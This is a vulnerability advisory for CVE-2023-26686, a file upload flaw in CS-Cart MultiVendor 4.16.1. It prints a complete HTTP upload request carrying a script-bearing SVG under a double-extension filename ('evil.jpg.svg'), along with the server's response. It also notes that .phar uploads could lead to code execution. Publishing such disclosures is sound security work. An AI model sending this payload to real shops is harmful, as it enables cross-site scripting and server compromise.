



# CVE-2023-26686 - File Upload vulnerability in product image of CS-Cart MultiVendor 4.16.1
This vulnerability allows an attacker to upload arbitrary files to the server by exploiting the “Image Upload” functionality provided by the website. It was possible to upload files with malicious payloads, such as “.html”, “.phar” and “.svg”, which could be used to deliver further attacks such as Remote Code Execution or Cross Site Scripting.

## Testing Environment
We used a default installation with example data of "CS-Cart MultiVendor 4.16.1" using the .zip file obtained from the official site on a fully patched Ubuntu Sever 22.04(php 8.1.2, Apache/2.4.52).

To exploit the vulnerability a "vendor" account or an "admin" account is needed. Just find a place where you can upload a product image, like the "Product bundles" below.



To upload a ".svg"' the image we have done the following request:

```
POST /vendor.php?dispatch=image.upload HTTP/1.1
Host: 172.16.85.150
Content-Length: 798
Accept: application/json
Cache-Control: no-cache
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarywBE2ljDWt7QelOR0
Origin: http://172.16.85.150
Referer: http://172.16.85.150/vendor.php?dispatch=products.update&product_id=148
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: klaro=%7B%22paypal%22%3Atrue%2C%22facebook%22%3Atrue%2C%22pinterest%22%3Atrue%2C%22twitter%22%3Atrue%2C%22yandex%22%3Atrue%2C%22google_maps%22%3Atrue%7D; sid_vendor_179e8=1e7e0c2cf02445ef05a097ceac9c963d-A; sid_admin_179e8=25d214380d86c5cbb48c7c01e53fe6ff-A; sid_customer_179e8=837bc467ac15ad1d1843107245d0744c-C
Connection: close

------WebKitFormBoundarywBE2ljDWt7QelOR0
Content-Disposition: form-data; name="is_ajax"

1
------WebKitFormBoundarywBE2ljDWt7QelOR0
Content-Disposition: form-data; name="security_hash"

eec209847ff6336e0ee148fa1ecd56bf
------WebKitFormBoundarywBE2ljDWt7QelOR0
Content-Disposition: form-data; name="file[]"; filename="evil.jpg.svg"
Content-Type: image/jpg

<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script type="text/javascript">
      alert(666);
   </script>
</svg>"this

------WebKitFormBoundarywBE2ljDWt7QelOR0—
```

We received the response containing the uploaded filename and it's location.
```
HTTP/1.1 200 OK
Date: Wed, 01 Feb 2023 08:59:44 GMT
Server: Apache/2.4.52 (Ubuntu)
X-Frame-Options: SAMEORIGIN
Set-Cookie: sid_vendor_179e8=1e7e0c2cf02445ef05a097ceac9c963d-A; expires=Wed, 15-Feb-2023 08:59:44 GMT; Max-Age=1209600; path=/; HttpOnly; SameSite=lax
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Security-Policy: frame-ancestors 'self';
Content-Length: 158
Connection: close
Content-Type: application/json; charset=utf-8

{"local_data":{"name":"evil.jpg.svg","full_path":"evil.jpg.svg","type":"image\/jpg","path":"sess_data\/evil.jpg.svg","error":0,"size":384},"notifications":[]}
```



Furthermore, the upload of ".php" files was not permitted; however, the upload of alternative file formats that enable code execution, such as ".phar" files, was allowed.


